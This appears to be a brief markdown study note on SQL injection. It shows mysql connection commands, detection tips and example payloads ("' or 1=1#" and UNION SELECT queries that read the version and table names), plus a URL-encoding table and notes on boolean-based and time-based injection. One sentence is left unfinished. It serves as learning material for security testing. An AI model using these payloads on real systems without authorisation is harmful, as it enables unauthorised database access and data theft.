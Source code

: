 ## SQL Injection (SQLi)
*Lots of webpages store data in SQL databases. If they don't sanitize user inputs, then it is possible to query the database from an input field *

Connect to SQL
```bash
mysql -u <user> -p
<password>
```
```bash
mysql -u <user> -h <IP> -P <port> -p
```
According to [Operator Precedence](https://dev.mysql.com/doc/refman/8.0/en/operator-precedence.html) (Order of Operations) AND statements evaluate first and OR evaluate last

SQL commands
```sql
SELECT UNION FROM WHERE
```
[Cheatsheet](https://portswigger.net/web-security/sql-injection/cheat-sheet)

Detection
try single and double quotes 
'' "", Comments --
Use a # to terminate a line
```sql
<name>' or 1=1#
<name>' union select null, null#
<name>' union select null,null,version()#
<name>' union select null,null,table_name from information_schema.tables#
```


**URL Encoding**

| Payload | URL Encoding |
| ------- | ------------ |
| '       | %27          |
| "       | %22          |
| #       | %23          |
| ;       | %3B          |
| )       | %29          |


Since UNION joins parameters, it can only return as many

**Boolean Based**
With `Boolean Based` SQL injection, we can use SQL conditional statements to control whether the page returns any output at all, 'i.e., original query response,' if our conditional statement returns `true`.

**Time Based**
As for `Time Based` SQL injections, we use SQL conditional statements that delay the page response if the conditional statement returns `true` using the `Sleep()` function.
